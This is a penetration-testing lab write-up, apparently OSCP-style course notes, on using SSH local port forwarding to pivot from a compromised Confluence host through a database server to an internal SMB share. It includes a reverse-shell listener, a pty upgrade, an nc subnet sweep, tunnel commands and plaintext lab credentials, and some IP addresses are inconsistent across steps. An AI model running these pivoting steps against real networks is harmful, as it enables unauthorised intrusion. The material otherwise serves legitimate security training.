

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# SSH Tunelling

**SSH tunneling encapsulates arbitrary network traffic inside an encrypted SSH connection**. It’s useful for securely accessing services across restrictive networks or pivoting through compromised systems. Port forwarding with SSH is controlled using options like `-L`, `-R`, and `-D`, depending on the direction of traffic.

## Local Port Forwarding

Local port forwarding is commonly used when you have **SSH access to a pivot machine** and want to access a service only it can reach. Unlike tools like `socat` or `chisel`, SSH is encrypted by design and blends into normal admin traffic. Expanding the [port forward scenario](port-foward.md):

* We compromised `CONFLUENCE01` (`192.168.125.63`) and have a reverse shell.
* From there, we can SSH to `PGDATABASE01` (`10.4.125.215`).
* `PGDATABASE01` has access to an SMB server on `HRSHARES` (`172.16.185.217:445`).

Our goal is to forward TCP port `445` on `172.16.185.217` to TCP port `4455` on `CONFLUENCE01`, then access it from our Kali machine.

<figure><figcaption></figcaption></figure>




```bash
$ nc -lvnp 4444
...
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty;pty.spawn("/bin/sh")'
$ ssh database_admin@10.4.125.215
...
database_admin@10.4.125.215's password: sqlpass123
...
database_admin@pgdatabase01:~$
```





```bash
database_admin@pgdatabase01:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
4: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:9e:a1:85 brd ff:ff:ff:ff:ff:ff
    inet 10.4.125.215/24 brd 10.4.125.255 scope global ens192
       valid_lft forever preferred_lft forever
5: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:9e:ab:53 brd ff:ff:ff:ff:ff:ff
    inet 172.16.125.254/24 brd 172.16.125.255 scope global ens224
       valid_lft forever preferred_lft forever
database_admin@pgdatabase01:~$ ip route
default via 10.4.125.254 dev ens192 proto static
10.4.125.0/24 dev ens192 proto kernel scope link src 10.4.125.215
172.16.125.0/24 dev ens224 proto kernel scope link src 172.16.125.254
```




We found that `PGDATABASE01` is on a `172.16.50.0/24` subnet. Without a port scanner, we used a Bash loop with `nc` to scan for hosts with port `445` open, discovering `172.16.50.217`.


```bash
database_admin@pgdatabase01:~$ for i in $(seq 1 254); do nc -zv -w 1 172.16.185.$i 445; done
<SNIP>
Connection to 172.16.185.217 445 port [tcp/microsoft-ds] succeeded!
<SNIP>
```




Instead of transferring files through multiple hosts (`PGDATABASE01` to `CONFLUENCE01` to Kali) , we can set up an SSH local port forwarding from `CONFLUENCE01` to `PGDATABASE01`. A local port forward can be set up using OpenSSH's `-L` option, which takes two sockets in the format `IPADDRESS:PORT` separated with a colon as an argument:

1. The first socket is the **listening socket** that will be bound to the SSH client machine.
2. The second socket is **where we want to forward the packets to**.
3. The rest of the SSH command is as usual - pointed at the SSH server.

> _The `-N` flag prevents SSH from executing any remote commands, meaning we will only receive output related to our port forward._

```bash
# general format
ssh -L <localport>:<target-host>:<target-port> <user>@<ssh-server>

# CONF to PGDA tunnel
ssh -N -L 0.0.0.0:4455:172.16.185.217:445 database_admin@10.4.185.215
```



From Kali, we can now list SMB shares.

```bash
$ smbclient -p 4455 -L //192.168.185.63/ -U hr_admin --password=Welcome1234
```



**Verify Port is Listening:**

```bash
netstat -antp | grep 4455
```


**Why Local Port Forwarding?**

* Service (SMB) isn’t directly reachable from Kali.
* Service is reachable by `PGDATABASE01`.
* Tunnel traffic through an SSH session on `CONFLUENCE01` → `PGDATABASE01` → `HRSHARES`.

